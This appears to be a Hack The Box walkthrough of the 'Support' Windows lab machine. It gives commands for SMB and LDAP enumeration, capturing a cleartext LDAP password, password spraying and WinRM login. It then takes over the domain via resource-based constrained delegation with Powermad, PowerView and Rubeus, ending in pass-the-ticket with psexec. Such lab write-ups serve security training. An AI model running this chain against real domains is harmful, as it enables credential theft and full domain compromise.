 ```yaml
---
title: "Support Walkthrough(HTB)"
date: 2025-03-18
draft: false 
description: "Support is an Easy difficulty Windows machine that features an SMB share that allows anonymous authentication....."
tags: ["Easy", "Windows", "HTB", "Hacking", "Active Directory", "Walkthrough"]
---
```

## Reconnaissance & Enumeration
- The port scan reveals multiple open ports 
![Pasted image 20241221142512.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221142512.png?raw=true)
- As always we got LDAP, Netbios, SMB etc ports open
- Using `smbclient` I enumerated for smb shares and we got the share list  
```bash
smbclient -L support.htb
```
![Pasted image 20241221143207.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221143207.png?raw=true)
- However the interesting share here is `support-tools`. 
- Using netexec I confirmed the guest login and it was a success
```bash
netexec smb support.htb -u sundeity -p ""
```
- I enumerated for guest shares and we got access to two shares
```bash
netexec smb support.htb -u sundeity -p "" --shares
```
![Pasted image 20241221143552.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221143552.png?raw=true)
- So I checked the share `support-tools` and as the name suggests we got some tools inside the directory. Most of the tools are familiar to me aleast their names are familiar
![Pasted image 20241221143832.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221143832.png?raw=true)
- I decided to enumerate all the zips from the share. Initially the zips didn't provide me with anything interesting so I moved on to enumerate LDAP. 
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 support.htb
```
![Pasted image 20241221145020.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221145020.png?raw=true)
- Then I enumerated for users using netexec from smb and got the users list
- Removed all unwanted texts from the list
```bash
cat users.txt | grep "SidTypeUser" | cut -d '\' -f 2 | cut -d '(' -f 1 >> users-smb.txt
```
![Pasted image 20241221145402.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221145402.png?raw=true)
- I Stored the users in a file.
### UsersInfo.exe analysis

- Remember the file `UsersInfo.exe.zip` that we have downloaded from SMB share. At first I didn't notice it but after a while I was stuck and then I only I realized the unfamiliar tool among the known tools within the share  
- On running `UsersInfo.exe` with wine I can see it, authenticate to ldap for retrieving the user that we requested by that this tool checks if that particular user available in the DC or not, then it returns the statement accordingly.
- For an example the tool returned me a error `No such object` meaning the requested user cannot be found within LDAP  
![Pasted image 20241221210746.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221210746.png?raw=true)
- This tool doesn't use any encryption to login against LDAP thus leaves the password used for authentication in clear text .If I can capture the traffic in wireshark I can get the password.
![Pasted image 20241221210900.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221210900.png?raw=true)
- In the LDAP I can see it authenticate as user `ldap` with the password. As I got a username and password I can now collect data for bloodhound
- Getting data for Bloodhound
![Pasted image 20241221211206.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221211206.png?raw=true)

## Exploitation

- If we search the results of ldapsearch , particularly in the info field I can get another password. Which is new to me cause I never seen anything sensitive in an info field.
![new](https://media1.tenor.com/m/YtbP6LkOtbsAAAAd/everything-was-very-new-to-me-jiya-shankar.gif)

```bash
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w '<password' -b "DC=support,DC=htb" | grep "info"
```
![Pasted image 20241221212252.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221212252.png?raw=true)
- In LDAP I got this password from the user `support@support.htb`
- I checked the bloodhound data, and user `support` is member of three groups
![Pasted image 20241221213052.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221213052.png?raw=true)
- For a change I used `crackmapexec` to password spray, eventually it confirms the password for `support` user
```bash
crackmapexec winrm support.htb -u users-smb.txt -p <password>
```
![Pasted image 20241221213417.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221213417.png?raw=true)
- Using the newly dicovered password I logged into winrm via `evilwinrm` as user `support`
```bash
evil-winrm -u support -p '<password>' -i support.htb 
```
- Got the {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241221213908.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221213908.png?raw=true)

## Privilege Escalation
- If we see, user `support` is in a group called `Shared Support Accounts@Support.htb` . That group have Generic all permissions over Domain controller Itself.
![Pasted image 20241222182550.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241222182550.png?raw=true)
- This privilege allows the trustee to manipulate the target object however they wish.
### Abusing GenericALL
- We can abuse this by the help instructions in Bloodhound for this Privilege. Here I am going to create a Fake computer under my control and that will act as DC to get kerberos ticket. Follow the steps below carefully
![care](https://media1.tenor.com/m/ZB5i28vlmuMAAAAd/id-be-careful-if-i-were-you-rupaul.gif)
- **Required Tools**
	- [PowersView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1)
	- [Powermad.ps1](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1)
	- Rubeus.exe(Pre build from [SharpCollection](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.5_x64))
#### Step 1: Upload all the tools to the target system, then
- Do the following in the winrm shell	
> `cd C:\\programdata`

> `upload  PowersView.ps1`

> `upload Powermad.ps1`

> `upload Rubeus.exe`
	 
![Pasted image 20241222185340.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241222185340.png?raw=true)
#### Step 2: Invoking all the scripts
```powershell
. .\PowerView.ps1
```

```powershell
. .\Powermad.ps1
```
#### Step 3: Creating a Fake Computer
```powershell
New-MachineAccount -MachineAccount <Computername> -Password $(ConvertTo-SecureString '<Password>' -AsPlainText -Force)
```
- We need SID of the computer that we have created earlier, so that we can assign that value to a variable
```powershell
$fakesid = Get-DomainComputer <Computername> | select -expand objectsid
```
#### Step 4: Configuring
- Now I’ll configure the DC to trust my fake computer to make authorization decisions on it’s behalf. These commands will create an ACL with the fake computer’s SID and assign that to the DC

{{< badge >}} Definition {{< /badge >}}

{{< details summary="What is ACL?" >}} An ACL is a list of access control entries (ACEs) that define permissions for users or groups to access specific objects (like users, groups, computers, or organizational units) and their attributes. 
Purpose:
ACLs ensure that only authorized users can access specific resources and perform specific actions, enhancing security and data protection. 
{{< /details >}}
```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```

```powershell
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```powershell
$SD.GetBinaryForm($SDBytes, 0)
```

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
![Pasted image 20241222185607.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241222185607.png?raw=true)
#### Step 5: Auth as the Computer

```powershell
.\Rubeus.exe hash /password:<Password> /user:<ComputerName> /domain:support.htb
```
- Now copy the `rc4_hmac` hash from the output
![Pasted image 20241222185715.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241222185715.png?raw=true)

#### Step 6: Get the Kerberos Ticket

```powershell
.\Rubeus.exe s4u /user:<Computername>$ /rc4:<Hash> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```
- Now ticket will be captured. We can see the base64 encoded ticket
![Pasted image 20241222185806.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241222185806.png?raw=true)
- Copy the ticket for Administrator and put in a file called `ticket.kirbi.b64`
- Remove all the whitespaces and unwanted lines, I done this in vim using this command `:%s/\s\+//g`
- Now decode the base64 into a different file

```bash
base64 -d tick.kirbi.b64 > ticket.kirbi
```
- For linux operating systems we have to convert the ticket from `kirbi` to `ccache`, for passing the ticket
- We can easily convert this using  `ticketConverter.py`. It's one of the tool from Impacket tool kit.
```bash
sudo /home/n_emperor/.local/share/pipx/venvs/netexec/bin/ticketConverter.py ticket.kirbi ticket.ccache
```
![Pasted image 20241222190321.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241222190321.png?raw=true)
- Now **Pass the ticket and spawn a shell**
```bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
![Pasted image 20241222190446.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241222190446.png?raw=true)
## End
- Secured the {{< keyword >}} Root flag  {{< /keyword >}} 
![Pasted image 20241222190524.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241222190524.png?raw=true)

{{< typeit >}} Knock..knock... this walkthrough is over, don't forget to check my other walkthroughs. Bye, see you again  {{< /typeit >}}


![end](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExcjBjdzF0N2Nid25rOTViZWZmcWtmMDZpazQ0b21tbTJxeDY3Z2YwNiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/QLpMNfBtUi3ss/giphy.gif)
